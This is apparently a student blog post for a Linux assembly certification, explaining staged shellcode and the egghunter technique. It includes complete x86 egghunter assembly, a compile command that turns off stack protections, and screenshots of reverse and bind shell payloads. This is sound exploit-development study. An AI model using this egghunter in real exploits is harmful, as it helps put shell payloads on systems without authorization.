 ```yaml
---
layout: single
title: "SLAE: Staged Shellcode Payload via Egghunting"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-20
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_3)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and examine staged shellcode containing the "Egghunting" technique.

"But Why do we need staged shellcode? Can't we just pwn it!!?"

Sometimes the amount of space in bytes that we have control over initially is too small, so the initial payload simply goes and retrieves the second part of the payload from the attacker, C2 etc.

Egghunting expands on the above by prepending a byte sequence (egg) at the beginning of your final shellcode, so that the "whole egg" can be located in memory and executed.

Contrived example:
   * we place our shellcode with the egg prepended twice in memory
   * We tell the egg hunter to look for our egg, it does this by checking current memory address for our "egg" eg "0x50905090"
   * If not there, move onto next memory address
   * once it is located, make sure there are two instances next to each other (8bytes) to avoid finding your hunter which will obviously contain one instance of our code
   * Once located, jmp to the located shellcode!

In addition to the above, an egghunter must be resilient to errors and take up minimal space.

How can we do this with code?
   * We will need to make use of the access syscall in a loop, to tell whether or not a page of memory is accessible. (access syscall is perfect as it requires only one argument, and simply checks it can access memory, it does not write anything)
   * If the current memory page is not accessible, we move up one memory page, using page_align
   * If the memory IS accessible, we will look for our prepended egg by comparing the pointer with our egg

![access](/assets/images/SLAE_3/1.JPG)

How does page align work?

Consider the below binary values, and remember how the bitwise operand [or](https://en.wikipedia.org/wiki/Bitwise_operation#OR) works.

Any value lower than 4095 will become 4095 when or'ing it, and after we increment by 1 (making it 4096) and or again, we will get 8191. When we increment THAT and or again, we get 12287. This makes perfect sense as we look at the binary values below, keeping or in mind.

>4095  = 0000 ‭1111 1111 1111‬

>4096  = ‭0001 0000 0000 0000‬

>8191  = ‭0001 1111 1111 1111‬

>8192  = ‭0010 0000 0000 0000‬

>12287 = ‭0010 1111 1111 1111‬

How DO we do this with code?
```
global _start			

section .text
_start:
    ; lay our egg
    xor ebx, ebx
    xor ecx, ecx
    mov ebx, 0x50905090 ; value of l337, flipped for little endian
    mul ecx ; this one instruction sets both eax and edx to 0, this is because mul results are stored in EAX and EDX

    ; build page_align
    page_align:
    or dx, 0xfff ; set dx to 4095, 4096 contains nulls!!

    ; build next_addr
    next_addr:
    inc edx ; as explained above, necessary to move forward after or operation, to a multiple of 4096
    pushad ; push all registers onto the stack to preserve them during syscall
    lea ebx, [edx+4] ; point to path being validated
    mov al, 33 ; mov syscall value for accept
    int 0x80
    cmp al, 0xf2 ; after we interrupt, check if the return value that of EFAULT
    popad ; return the registers we preserved earlier
    je page_align ; if EFAULT present jump to page_align
    cmp [edx], ebx ; see if our egg is inside address of edx
    jne next_addr ; egg not inside? jump to address_check, otherwise continue
    cmp [edx+4], ebx ; perform second check to vet out our hunter from result]
    jne next_addr ; second egg not inside? jump to address_check, otherwise execute
    jmp edx ; jump to past where we found the egg and execute code
```
We test out our egg hunter by modifying the c code from our previous assignments, and simply add another variable that contains our egghunter and change the return argument from the shellcode to our egghunter, so the value is stored in memory but never called directly.

Here is a copy of the code, we compile with ```gcc -fno-stack-protector -z execstack shellcode.c -o shell```

As below, testing with shellcode gives us a shell:

![shell1](/assets/images/SLAE_3/2.JPG)

**Something very, very cool about this compiled binary: if we run ``strace`` on it, we can see it smashing through the addresses until it hits our egg, builds our socket, dups the fds and sends the shell!**

We will modify our [previously built](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_2/rev_wrapper.py) shellcode wrapper to allow for [multiple payloads](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_3/egg_wrapper.py), as below we spin up a BIND shell and successfully connect:

![generate_and_compile](/assets/images/SLAE_3/3.JPG)

![connect_to_shell](/assets/images/SLAE_3/4.JPG)

Egg hunt complete!!
